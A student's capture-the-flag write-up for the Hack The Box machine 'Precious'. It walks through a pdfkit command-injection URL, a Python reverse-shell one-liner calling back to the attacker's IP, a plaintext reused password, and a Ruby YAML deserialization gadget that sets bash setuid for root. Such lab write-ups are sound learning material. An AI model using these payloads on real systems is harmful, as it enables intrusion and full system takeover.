

# Writeup: **Precious**

#### EASY machine (hackthebox.com)

#### by **Sylvain _"JavaliMZ"_ Júlio** - 30/12/2022

---

---

# Introduction

This write-up was created for two purposes. Normally, my write-ups are in Portuguese, but this time, I am writing in English because I am in a Cyber Security degree, and I need to complete an assignment for my English class during the 2022 winter break. The assignment was to summarize and explain three good articles about a topic I like, but I didn't know what to choose, so I decided to make the "Precious" machine from HTB and read some articles about the machine's vulnerabilities. Additionally, my teacher Maria's goal is to keep us interested and active in English, so I think I am respecting the overall rules =).

For this time, I will not be discussing possible ways to find something or explaining different concepts that are not related to the machine, because it is already a lot of work to write and think in English. I will only be talking about the machine and the way to gain Administrator access to the machine.

I will try to make analogies to the real world so that my teacher does not get lost. I will do my best.

# Enumeration

Like every machine, we need to know how to access it. HTB gives us the IP address, but we don't know anything else. The IP address is like the address of a house, but we need to figure out which doors are open to get in. In a machine, these doors are called "ports" (in reference to the ports of ships that allow the arrival of goods from the outside world). There are always 65,535 ports in all machines. It's a lot!! But we don't need to knock on all the ports manually... For that, we have a tool called **nmap**.

First, we need to confirm that we can reach the IP:

```bash
ping -c 1 10.10.11.189
    # PING 10.10.11.189 (10.10.11.189) 56(84) bytes of data.
    # 64 bytes from 10.10.11.189: icmp_seq=1 ttl=63 time=72.5 ms

    # --- 10.10.11.189 ping statistics ---
    # 1 packets transmitted, 1 received, 0% packet loss, time 0ms
    # rtt min/avg/max/mdev = 72.530/72.530/72.530/0.000 ms
```

We send an ICMP packet, and the target machine sends it back. With the **ping** command (like ping pong), we know the machine is alive and we can start scanning the ports. We noticed one more thing with the ping command. The result gives us the TTL (Time to Live) which refers to the number of hops that a packet is allowed to make before it is discarded. When a packet travels through the Internet, every time it passes through a router, the router decrements this value by 1. For Windows, TTL starts at 128, and for Linux, TTL starts at 64. We can use this information to approximate the Operating System of the target machine. In this case, it is likely a Linux machine. It is important for future commands on the target machine.


With the response of the **nmap** command, we know that on the target machine, we have 2 ports open: port 22 and port 80. Normally, port 22 is for an SSH server and port 80 is for a web server. The SSH server is a remote secure shell, used to connect my command line with the machine when we connect with the right credentials. We don't have any credentials, so we can't do anything here. We just have one more port, the web server.

Before we start looking at the website, we can do a more powerful scan, using **nmap** as well.


This new command gives us more information. The web server redirects us to **http://precious.htb/**, but that website doesn't exist. We know the site is on this IP, but the web server wants us to access it through the URL **http://precious.htb/**. We can do that by telling our machine that the URL **http://precious.htb/** corresponds to the IP of the target machine. For that, we can edit the file **/etc/hosts** as a root (super user) and add the line:

```bash
echo "10.10.11.189\tprecious.htb" >> /etc/hosts
```

Now, we can access the website:


It is a website that converts websites to PDF. We can do some basic testing to get more information about the website. We can try to serve a web server and enter the new URL to see what happens:

```bash
python -m http.server 80
```

This is a really simple web server, but it is enough for us. We can enter our URL **(http://10.10.14.144/)** in the field on the website and see what happens:


We can see that the website download a PDF file. Visually, it is just a simples PDF. But if we use a tool like **exiftool** to see the metadata of the PDF, we can see more information...


# Exploit - Remote Code Execution

We can see that the PDF Creator is a tool called **pdfkit v0.8.6**. This version is vulnerable and we can get a RCE (Remote Code Execution). We can see more about this vulnerability [here](https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795). To exploit this vulnerability, it's simple! We just need to add to the URL a parameter called **?user** and give a "space" but encoded (a space like %20 is the URL code for a space of the space bar). Next, we need to concatenate a bash code (because it is a Linux Machine) with the special symbol **`** (a code between 2 of this symbol in bash get execute before the rest of the command outside the symbols) around the code for execute it like if we are in a command line shell. The command we will try is a single ping to our machine to test if we really got remote code execution. The final URL will be:

> http://10.10.14.144/?name=%20`ping -c 1 10.10.14.144`
```bash
# Set up a listener to capture the ping
sudo tcpdump -i tun0 icmp
```

We got a ping back! I also create a tiny script in Python to have a fast way to try remote code execution:

```python
import requests

while True:
    cmd = input("[fAkeSh3ll ~] > ")
    data = {
        'url': f"http://10.10.14.144/?name=%20`{cmd}`",
        }
    response = requests.post('**http://precious.htb/**', data=data, verify=False)
```

Now, we can try to get a reverse shell. A reverse shell is a type of connection to get a shell on the target machine. But the way we got this is tricky. We need to find a way for the target machine to send its own shell to our machine. It's like trying to enter a house, and we need to find a way for the house to open its own door to give us access... The command that worked on the machine was this:

```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.144",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

So, if we want to do that on the Website, we need to send this url:

```bash
http://10.10.14.144/?name=%20`python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.144",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'`
```

The query needs to be that exact and we need to adapt the IP and the port. We also need to set up a listener to capture the shell.



# Foothold

We are in the machine. But we have low privilege. We need more!! HUAAHAHA!!

Digging through the folders and files, we'll find credentials for a service used by the user henry.


And like 99,9% of people, we can try if the user henry has the same password for is user account. And it works!

```bash
su henry
# Q3c1AqGHtoI0aXAYFH
```

# Privilege Escalation

We got a little more privileges. But it is not enough!! WE NEED MORE AGAIN!!!!


The sudo command is a command to execute another command as root privileges. And **sudo -l** inform us that the user **henry** can execute ***/usr/bin/ruby /opt/update_dependencies.rb*** as root. When we examine the update_dependencies.rb file, we realize that the script use "YAML.load" to load that file. That means the file will be deserialized. deserialization is like converting the syntax of the content of the file into object in ruby (in this case). But like in a lot of languages, deserialization can be dangerous... And in this case, we can create our own YAML file to execute a command as root. We can find a good article [here](https://book.hacktricks.xyz/pentesting-web/deserialization/python-yaml-deserialization) but for python, and [here](https://www.elttam.com/blog/ruby-deserialization/#content) in ruby. But the code we will use is [here](https://gist.github.com/staaldraad/89dffe369e1454eedd3306edc8a7e565).


We just create a file caller **test.txt** for confirm that the code is working. And it works! We can execute command as root. Now, we need a way to get root shell. They are so many ways, but I like this one: I will change permissions on the /usr/bin/bash program to execute it as the owner of the program. The owner of the program is root. So, if we execute the program, we will get a root shell. The code we will use is:

```bash
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: chmod +s /usr/bin/bash
         method_id: :resolve 
```

Now, we just need to execute the sudo command, and the **bash** program will be altered. And we can execute bash as root with a special flag:

```bash
sudo /usr/bin/ruby /opt/update_dependencies.rb
bash -p
```


# Conclusion

This machine was easy to get in, and the privilege escalation was a little more complex. But it was a good machine to learn more about Ruby and YAML. I hope you enjoyed this writeup. Fun fact: the machine is called Precious because it is a reference to the ruby programming language. Both vulnerabilities are related to the ruby language.
